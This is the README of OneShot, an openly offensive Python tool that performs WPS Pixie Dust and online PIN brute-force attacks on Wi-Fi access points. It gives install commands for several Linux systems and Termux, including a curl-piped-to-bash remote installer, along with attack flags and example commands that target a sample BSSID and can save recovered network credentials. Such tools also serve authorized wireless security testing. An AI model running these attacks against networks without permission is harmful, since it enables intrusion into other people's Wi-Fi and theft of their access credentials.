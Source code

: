 
# Overview
**OneShot** performs [Pixie Dust attack](https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-Offline-WPS-Attack) without having to switch to monitor mode.
# Features
 - [Pixie Dust attack](https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-Offline-WPS-Attack);
 - integrated [3WiFi offline WPS PIN generator](https://3wifi.stascorp.com/wpspin);
 - [online WPS bruteforce](https://sviehb.files.wordpress.com/2011/12/viehboeck_wps.pdf);
 - Wi-Fi scanner with highlighting based on iw;
# Requirements
 - Python 3.6 and above;
 - [Wpa supplicant](https://www.w1.fi/wpa_supplicant/);
 - [Pixiewps](https://github.com/wiire-a/pixiewps);
 - [iw](https://wireless.wiki.kernel.org/en/users/documentation/iw).
# Setup
## Debian/Ubuntu
**Installing requirements**
 ```
 sudo apt install -y python3 wpasupplicant iw wget
 ```
**Installing Pixiewps**

***Ubuntu 18.04 and above or Debian 10 and above***
 ```
 sudo apt install -y pixiewps
 ```
 
***Other versions***
 ```
 sudo apt install -y build-essential unzip
 wget https://github.com/wiire-a/pixiewps/archive/master.zip && unzip master.zip
 cd pixiewps*/
 make
 sudo make install
 ```
**Getting OneShot**
 ```
 cd ~
 wget https://raw.githubusercontent.com/fulvius31/OneShot/master/oneshot.py
 ```
Optional: getting a list of vulnerable to pixie dust devices for highlighting in scan results:
 ```
 wget https://raw.githubusercontent.com/fulvius31/OneShot/master/vulnwsc.txt
 ```
## Arch Linux
**Installing requirements**
 ```
 sudo pacman -S wpa_supplicant pixiewps wget python
 ```
**Getting OneShot**
 ```
 wget https://raw.githubusercontent.com/fulvius31/OneShot/master/oneshot.py
 ```
Optional: getting a list of vulnerable to pixie dust devices for highlighting in scan results:
 ```
 wget https://raw.githubusercontent.com/fulvius31/OneShot/master/vulnwsc.txt
 ```
## Alpine Linux
It can also be used to run on Android devices using [Linux Deploy](https://play.google.com/store/apps/details?id=ru.meefik.linuxdeploy)

**Installing requirements**  
Adding the testing repository:
 ```
 sudo sh -c 'echo "http://dl-cdn.alpinelinux.org/alpine/edge/testing/" >> /etc/apk/repositories'
 ```
 ```
 sudo apk add python3 wpa_supplicant pixiewps iw
 ```
 **Getting OneShot**
 ```
 sudo wget https://raw.githubusercontent.com/fulvius31/OneShot/master/oneshot.py
 ```
Optional: getting a list of vulnerable to pixie dust devices for highlighting in scan results:
 ```
 sudo wget https://raw.githubusercontent.com/fulvius31/OneShot/master/vulnwsc.txt
 ```
## [Termux](https://play.google.com/store/apps/details?id=com.termux)
Please note that root access is required.  

#### Using installer
 ```
 curl -sSf https://raw.githubusercontent.com/fulvius31/OneShot_Termux_installer/master/installer.sh | bash
 ```
#### Manually
**Installing requirements**
 ```
 pkg install -y root-repo
 pkg install -y git tsu python wpa-supplicant pixiewps iw
 ```
**Getting OneShot**
 ```
 git clone --depth 1 https://github.com/fulvius31/OneShot OneShot
 ```
#### Running
 ```
 sudo python OneShot/oneshot.py -i wlan0 --iface-down -K
 ```

# Usage
```
 oneshot.py <arguments>
 Required arguments:
     -i, --interface=<wlan0>  : Name of the interface to use

 Optional arguments:
     -b, --bssid=<mac>        : BSSID of the target AP
     -p, --pin=<wps pin>      : Use the specified pin (arbitrary string or 4/8 digit pin)
     -K, --pixie-dust         : Run Pixie Dust attack
     -B, --bruteforce         : Run online bruteforce attack
     --push-button-connect    : Run WPS push button connection

 Advanced arguments:
     -d, --delay=<n>          : Set the delay between pin attempts [0]
     -w, --write              : Write AP credentials to the file on success
     -F, --pixie-force        : Run Pixiewps with --force option (bruteforce full range)
     -X, --show-pixie-cmd     : Alway print Pixiewps command
     --vuln-list=<filename>   : Use custom file with vulnerable devices list ['vulnwsc.txt']
     --iface-down             : Down network interface when the work is finished
     -l, --loop               : Run in a loop
     -v, --verbose            : Verbose output
 ```

## Usage examples
Start Pixie Dust attack on a specified BSSID:
 ```
 sudo python3 oneshot.py -i wlan0 -b 00:90:4C:C1:AC:21 -K
 ```
Show avaliable networks and start Pixie Dust attack on a specified network:
 ```
 sudo python3 oneshot.py -i wlan0 -K
 ```
Launch online WPS bruteforce with the specified first half of the PIN:
 ```
 sudo python3 oneshot.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234
 ```
 Start WPS push button connection:s
 ```
 sudo python3 oneshot.py -i wlan0 --pbc
 ```
## Troubleshooting
#### "RTNETLINK answers: Operation not possible due to RF-kill"
 Just run:
```sudo rfkill unblock wifi```
#### "Device or resource busy (-16)"
 Try disabling Wi-Fi in the system settings and kill the Network manager. Alternatively, you can try running OneShot with ```--iface-down``` argument.
# Acknowledgements
## Special Thanks
* `rofl0r` for initial implementation;
* `Monohrom` for testing, help in catching bugs, some ideas;
* `Wiire` for developing Pixiewps;
* `drydryg` for his amazing work on `rofl0r` repo.
